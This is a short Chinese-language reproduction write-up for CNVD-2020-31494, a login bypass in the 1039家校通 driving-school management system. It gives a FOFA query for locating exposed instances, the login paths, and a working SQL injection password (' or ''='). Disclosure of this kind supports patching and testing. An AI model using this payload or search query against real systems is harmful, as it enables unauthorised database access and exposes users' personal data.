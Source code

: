 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

> [!NOTE]
>
> 1039家校通 v1.0 - v6.0

## FOFA

> [!NOTE]
>
> title="学员登录_1039家校通"

## 漏洞复现

管理员登录接口为

```
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```

![](http://wikioss.peiqi.tech/vuln/1039-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

账号密码为如下即可登录

```
user:peiqi
pass:' or ''='
```

![](http://wikioss.peiqi.tech/vuln/1039-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



